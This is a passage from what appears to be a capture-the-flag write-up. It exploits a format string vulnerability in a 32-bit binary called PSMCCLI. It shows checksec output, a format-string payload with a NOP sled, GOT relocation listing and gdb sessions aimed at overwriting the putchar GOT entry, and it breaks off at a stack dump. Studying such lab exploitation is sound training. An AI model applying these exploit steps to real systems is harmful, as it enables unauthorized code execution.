 Running `checksec` locally reveals that almost all protections are disabled, so a  classic GOT overwrite into shellcode exploit will work!
```gdb
pwndbg> checksec  
[*] '/root/panther/PSMCCLI'  
Arch: i386-32-little  
RELRO: Partial RELRO  
Stack: No canary found  
NX: NX disabled  
PIE: No PIE (0x8048000)  
RWX: Has RWX segments  
```  

Again, just to reiterate, so I ran all gdb debugging through the above invoke script to keep stack offsets equal.

We'll use the following template for writing two half-words to a target address.  In this case we need to find the offsets at which `0x41414141` and `0x42424242` are displayed.  I also included a nopsled which will have shellcode placed on it during the final exploitation, as we want the stack to look as close to the final result as possible.  Since the stack grows upwards, this affects offsets.

```bash  
./invoke /usr/local/bin/PSMCCLI $(python -c 'import sys; sys.stdout.write("AAAABBBB%0000000x%132$0x%0000000x%133$0x"+"\x90"*1000)')  
```  

Adjusting the values reveals that they're at 119 and 120.  I decided to overwrite the `putchar` GOT entry, as it is called after `printf`:
```bash
root@kali:~/panther# rabin2 -R PSMCCLI  
[Relocations]  
vaddr=0x08049ffc paddr=0x00000ffc type=SET_32 __gmon_start__  
vaddr=0x0804a00c paddr=0x0000100c type=SET_32 printf  
vaddr=0x0804a010 paddr=0x00001010 type=SET_32 puts  
vaddr=0x0804a014 paddr=0x00001014 type=SET_32 exit  
vaddr=0x0804a018 paddr=0x00001018 type=SET_32 __libc_start_main  
vaddr=0x0804a01c paddr=0x0000101c type=SET_32 putchar  
  
6 relocations  
```  
This means we'll be writing to the address `0x0804a01c`.  As for what I'm writing there, we'll need to dump the stack to see.  

Creating a breakpoint allows us to view the stack and find the nopsled address.  We keep using the invoke script during these so memory offsets are equal.  The following are run on the remote machine:
```gdb
(gdb) break *argshow+55  
Breakpoint 1 at 0x80484d2  
(gdb) r $(python -c 'import sys; sys.stdout.write("AAAABBBB%0000000x%132$0x%0000000x%133$0x"+"\x90"*1000)')  
Starting program: /usr/local/bin/PSMCCLI $(python -c 'import sys; sys.stdout.write("AAAABBBB%0000000x%132$0x%0000000x%133$0x"+"\x90"*1000)')  
[+] Args: AAAABBBBbffffaa490909090b7ffed0090909090��������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������  
Breakpoint 1, 0x080484d2 in argshow ()  
```  
```gdb  
(gdb) x/100gx $esp  
```